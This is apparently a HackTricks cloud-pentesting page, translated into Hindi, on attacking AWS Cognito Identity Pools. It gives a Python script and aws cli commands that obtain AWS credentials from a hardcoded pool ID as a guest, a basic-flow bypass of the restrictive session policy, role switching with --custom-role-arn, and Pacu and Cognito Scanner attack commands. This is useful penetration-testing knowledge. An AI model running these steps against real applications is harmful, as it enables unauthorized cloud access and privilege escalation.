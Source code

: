 # Cognito Identity Pools

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

Identity pools एक महत्वपूर्ण भूमिका निभाते हैं क्योंकि ये आपके उपयोगकर्ताओं को **अस्थायी क्रेडेंशियल्स** प्राप्त करने में सक्षम बनाते हैं। ये क्रेडेंशियल्स विभिन्न AWS सेवाओं, जैसे कि Amazon S3 और DynamoDB, तक पहुँचने के लिए आवश्यक हैं। Identity pools की एक उल्लेखनीय विशेषता यह है कि ये गुमनाम अतिथि उपयोगकर्ताओं और उपयोगकर्ता प्रमाणीकरण के लिए विभिन्न पहचान प्रदाताओं का समर्थन करते हैं। समर्थित पहचान प्रदाता में शामिल हैं:

- Amazon Cognito user pools
- सामाजिक साइन-इन विकल्प जैसे Facebook, Google, Login with Amazon, और Sign in with Apple
- OpenID Connect (OIDC) के साथ संगत प्रदाता
- SAML (Security Assertion Markup Language) पहचान प्रदाता
- Developer authenticated identities
```python
# Sample code to demonstrate how to integrate an identity provider with an identity pool can be structured as follows:
import boto3

# Initialize the Amazon Cognito Identity client
client = boto3.client('cognito-identity')

# Assume you have already created an identity pool and obtained the IdentityPoolId
identity_pool_id = 'your-identity-pool-id'

# Add an identity provider to the identity pool
response = client.set_identity_pool_roles(
IdentityPoolId=identity_pool_id,
Roles={
'authenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/AuthenticatedRole',
'unauthenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/UnauthenticatedRole',
}
)

# Print the response from AWS
print(response)
```
### Cognito Sync

Identity Pool सत्र उत्पन्न करने के लिए, आपको पहले **एक Identity ID उत्पन्न करने की आवश्यकता है**। यह Identity ID **उस उपयोगकर्ता के सत्र की पहचान है**। इन पहचानों में 20 तक डेटा सेट हो सकते हैं जो 1MB तक की कुंजी-मूल्य जोड़े को संग्रहीत कर सकते हैं।

यह **एक उपयोगकर्ता की जानकारी रखने के लिए उपयोगी है** (जो हमेशा उसी Identity ID का उपयोग करेगा)।

इसके अलावा, सेवा **cognito-sync** वह सेवा है जो **इस जानकारी का प्रबंधन और समन्वय करने की अनुमति देती है** (डेटा सेट में, धाराओं में जानकारी भेजना और SNSs संदेश...).

### Tools for pentesting

- [Pacu](https://github.com/RhinoSecurityLabs/pacu), AWS शोषण ढांचा, अब "cognito\_\_enum" और "cognito\_\_attack" मॉड्यूल शामिल करता है जो एक खाते में सभी Cognito संपत्तियों की गणना को स्वचालित करता है और कमजोर कॉन्फ़िगरेशन, उपयोगकर्ता विशेषताओं का उपयोग जो पहुंच नियंत्रण के लिए हैं, आदि को चिह्नित करता है, और उपयोगकर्ता निर्माण (MFA समर्थन सहित) और परिवर्तनीय कस्टम विशेषताओं, उपयोग योग्य पहचान पूल क्रेडेंशियल्स, id टोकन में ग्रहणीय भूमिकाओं के आधार पर विशेषाधिकार वृद्धि को भी स्वचालित करता है।

मॉड्यूल के कार्यों का विवरण देखने के लिए [ब्लॉग पोस्ट](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2) के भाग 2 को देखें। स्थापना निर्देशों के लिए मुख्य [Pacu](https://github.com/RhinoSecurityLabs/pacu) पृष्ठ देखें।

#### Usage

उपयोगकर्ता निर्माण और दिए गए पहचान पूल और उपयोगकर्ता पूल क्लाइंट के खिलाफ सभी प्रिवेस्क वेक्टरों के प्रयास के लिए नमूना cognito\_\_attack उपयोग:
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
सैंपल cognito\_\_enum का उपयोग सभी उपयोगकर्ता पूल, उपयोगकर्ता पूल क्लाइंट, पहचान पूल, उपयोगकर्ताओं आदि को इकट्ठा करने के लिए करें, जो वर्तमान AWS खाते में दृश्य हैं:
```bash
Pacu (new:test) > run cognito__enum
```
- [Cognito Scanner](https://github.com/padok-team/cognito-scanner) एक CLI टूल है जो पायथन में लिखा गया है और यह Cognito पर विभिन्न हमलों को लागू करता है, जिसमें अनचाही खाता निर्माण और पहचान पूल वृद्धि शामिल है।

#### Installation
```bash
$ pip install cognito-scanner
```
#### उपयोग
```bash
$ cognito-scanner --help
```
For more information check https://github.com/padok-team/cognito-scanner

## IAM भूमिकाओं तक पहुँच

### बिना प्रमाणीकरण के

एक हमलावर को **AWS क्रेडेंशियल्स** प्राप्त करने के लिए एक Cognito ऐप में बिना प्रमाणीकरण वाले उपयोगकर्ता के रूप में केवल **Identity Pool ID** जानने की आवश्यकता होती है, और यह **ID को वेब/मोबाइल** **ऐप्लिकेशन** में हार्डकोड किया जाना चाहिए ताकि इसका उपयोग किया जा सके। एक ID इस तरह दिखती है: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (यह ब्रूटफोर्स करने योग्य नहीं है)।

> [!TIP]
> **IAM Cognito बिना प्रमाणीकरण वाली भूमिका जो बनाई गई है** डिफ़ॉल्ट रूप से `Cognito_<Identity Pool name>Unauth_Role` कहलाती है।

यदि आप एक हार्डकोडेड Identity Pools ID पाते हैं और यह बिना प्रमाणीकरण वाले उपयोगकर्ताओं की अनुमति देता है, तो आप AWS क्रेडेंशियल्स प्राप्त कर सकते हैं:
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
या आप निम्नलिखित **aws cli कमांड** का उपयोग कर सकते हैं:
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
> [!WARNING]
> ध्यान दें कि डिफ़ॉल्ट रूप से एक अनधिकृत cognito **उपयोगकर्ता को कोई अनुमति नहीं मिल सकती, भले ही इसे एक नीति के माध्यम से सौंपा गया हो**। निम्नलिखित अनुभाग की जांच करें।

### Enhanced vs Basic Authentication flow

पिछले अनुभाग ने **डिफ़ॉल्ट संवर्धित प्रमाणीकरण प्रवाह** का पालन किया। यह प्रवाह IAM भूमिका सत्र के लिए एक **प्रतिबंधात्मक** [**सत्र नीति**](../../aws-basic-information/index.html#session-policies) सेट करता है। यह नीति केवल सत्र को [**इस सूची से सेवाओं का उपयोग करने**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services) की अनुमति देगी (भले ही भूमिका को अन्य सेवाओं तक पहुंच हो)।

हालांकि, इसे बायपास करने का एक तरीका है, यदि **पहचान पूल में "बेसिक (क्लासिक) फ्लो" सक्षम है**, तो उपयोगकर्ता उस प्रवाह का उपयोग करके एक सत्र प्राप्त कर सकेगा जिसमें **वह प्रतिबंधात्मक सत्र नीति नहीं होगी**।
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
> [!WARNING]
> यदि आपको यह **त्रुटि** मिलती है, तो इसका कारण है कि **बुनियादी प्रवाह सक्षम नहीं है (डिफ़ॉल्ट)**

> `An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`

IAM क्रेडेंशियल्स का एक सेट होने पर आपको [यह जांचना चाहिए कि आपके पास कौन सा एक्सेस है](../../index.html#whoami) और [अधिकार बढ़ाने की कोशिश करें](../../aws-privilege-escalation/index.html).

### प्रमाणित

> [!NOTE]
> याद रखें कि **प्रमाणित उपयोगकर्ताओं** को शायद **विभिन्न अनुमतियाँ** दी जाएंगी, इसलिए यदि आप **ऐप के अंदर साइन अप कर सकते हैं**, तो ऐसा करने की कोशिश करें और नए क्रेडेंशियल्स प्राप्त करें।

**प्रमाणित उपयोगकर्ताओं के लिए पहचान पूल** में भी **भूमिकाएँ** उपलब्ध हो सकती हैं।

इसके लिए आपको **पहचान प्रदाता** तक पहुँच की आवश्यकता हो सकती है। यदि वह एक **Cognito User Pool** है, तो शायद आप डिफ़ॉल्ट व्यवहार का दुरुपयोग कर सकते हैं और **खुद एक नया उपयोगकर्ता बना सकते हैं**।

> [!TIP]
> **IAM Cognito प्रमाणित भूमिका जो बनाई गई है** उसे डिफ़ॉल्ट रूप से `Cognito_<Identity Pool name>Auth_Role` कहा जाता है।

वैसे भी, **निम्नलिखित उदाहरण** यह अपेक्षाकृत करता है कि आपने पहले ही **Cognito User Pool** में लॉग इन किया है जिसका उपयोग पहचान पूल तक पहुँचने के लिए किया गया है (यह न भूलें कि अन्य प्रकार के पहचान प्रदाताओं को भी कॉन्फ़िगर किया जा सकता है)।

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id <identity_pool_id> \
--logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>

# पिछले कमांड प्रतिक्रिया से identity_id प्राप्त करें
aws cognito-identity get-credentials-for-identity \
--identity-id <identity_id> \
--logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>


# IdToken में आप उन भूमिकाओं को पा सकते हैं जिनका उपयोगकर्ता को User Pool Groups के कारण एक्सेस है
# विशिष्ट भूमिका के लिए क्रेडेंशियल्स प्राप्त करने के लिए --custom-role-arn का उपयोग करें
aws cognito-identity get-credentials-for-identity \
--identity-id <identity_id> \
<strong>    --custom-role-arn <role_arn> \
</strong>    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>
</code></pre>

> [!WARNING]
> यह संभव है कि **पहचान प्रदाता के आधार पर विभिन्न IAM भूमिकाएँ कॉन्फ़िगर की जाएं** जिस पर उपयोगकर्ता लॉग इन कर रहा है या यहां तक कि **उपयोगकर्ता** (क्लेम का उपयोग करके) के आधार पर। इसलिए, यदि आपके पास एक ही या विभिन्न प्रदाताओं के माध्यम से विभिन्न उपयोगकर्ताओं तक पहुँच है, तो सभी के IAM भूमिकाओं तक पहुँचने के लिए लॉग इन करना **लायक हो सकता है**।

{{#include ../../../../banners/hacktricks-training.md}}

